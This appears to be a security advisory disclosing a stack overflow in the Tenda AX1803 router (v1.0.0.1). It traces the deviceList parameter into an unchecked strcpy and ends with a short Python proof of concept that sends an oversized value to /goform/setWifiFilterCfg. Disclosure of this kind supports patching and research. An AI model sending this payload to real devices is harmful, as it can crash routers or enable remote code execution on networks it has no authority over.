 # Tenda AX1803 formSetWifiMacFilterCfg
### Overview
vendor: Tenda

product: AX1803

version: v1.0.0.1

type: Stack Overflow
### Vulnerability Description
Tenda AX1803 v1.0.0.1 were discovered to contain a stack overflow via the deviceList parameter in the formSetWifiMacFilterCfg function.

### Vulnerability details
In function formSetWifiMacFilterCfg line 64, it reads in a user-provided parameter `deviceList`. The variable `s_10` is passed as a parameter to the `sub_5E3A0` function. Function `sub_5E3A0` calls function `sub_5E250`, where the first parameter is the variable `s_3`(actually the variable `s_10`) and the second parameter is the stack-based buffer `s_2`. In function `sub_5E250`, the variable `s_1`(actually the variable `s_10`) is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`(actually the variable `s_2`). As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/5.png)
![](images/6.png)
![](images/7.png)
![](images/8.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setWifiFilterCfg"

data = {
    "macFilterType": "white",
    "deviceList": "a" * 1000 + "\r" + "b" * 1000
}


response = requests.get(url, params=data)
print(response.text)
```
